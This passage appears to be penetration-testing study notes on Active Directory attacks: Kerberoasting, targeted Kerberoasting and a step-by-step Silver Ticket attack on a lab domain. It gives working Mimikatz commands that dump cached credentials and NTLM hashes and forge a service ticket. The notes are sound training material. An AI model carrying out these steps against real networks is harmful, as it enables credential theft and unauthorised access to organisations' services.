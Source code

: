 ### Usage

- This technique is powerful if the domain contains high-privilege service accounts with weak passwords, which is not uncommon in many organizations. 
- However, if the SPN runs in the context of a computer account, a managed service account, or a group-managed service account, the password will be randomly generated, complex, and 120 characters long, making cracking infeasible. The same is true for the krbtgt user account which acts as service account for the KDC. 
- Therefore, our chances of performing a successful Kerberoast attack against SPNs running in the context of user accounts is much higher.

### GenericWrite or GenericAll permissions

If we have *GenericWrite* or *GenericAll* permissions on another AD account, we could reset the user’s password but this may raise suspicion. However, we could also set an SPN for the user, kerberoast the account, and crack the password hash in an attack named targeted Kerberoasting.

## Silver Tickets

Prerequisite:
- The service application only checks the user's permissions from the group memberships in the service ticket, but doesn't verify them
- Privileged Account Certificate (PAC) validation is not performed by service application (true most of the time)

Background:
- if we authenticate against an IIS server that is executing in the context of the service account iis_service, the IIS application will determine which permissions we have on the IIS server depending on the group memberships present in the service ticket.
- With the service account password or its associated NTLM hash at hand, we can forge our own service ticket to access the target resource with any permissions. The custom created ticket is called Silver Ticket
- if the service principal name is used on multiple servers, the silver ticket can be leveraged against them all.

Information we need for silver ticket attack:
- SPN password / NTLM hash
	- for this we need to know which machine the target service has a session on
- domain SID
- target SPN

Attack:
1. Connect to target machine via RDP as domain user with local admin
2. Check if our current user already has access to target service:
   `iwr -UseDefaultCredentials http://web04`
	- `http://web04`: the HTTP SPN mapped to the service
3. Start PS as Administrator and launch Mimikatz
4. Extract cached AD credentials:
   `privilege::debug`
   `sekurlsa::logonpasswords`
5. From the output of above, get NTLM hash of target service user account
6. Get domain SID of current user:
   `whoami /user`
	- Omit RID of user from the output:
	  `S-1-5-21-1987370270-658905905-1781884369-1105` (omit the `-1105`)
   Alternatively, we could also retrieve the SID of the SPN user account from the output of Mimikatz, since the domain user accounts exist in the same domain.
7. Obtain target SPN (e.g. for IIS, you would want the HTTP SPN HTTP/web04.corp.com:80)
8. Create silver ticket with Mimikatz:
   `kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin`
	- `/sid:`: domain SID
	- `/domain:`: domain name
	- `/target:`: target where the SPN runs
	- `/service:`: the SPN protocol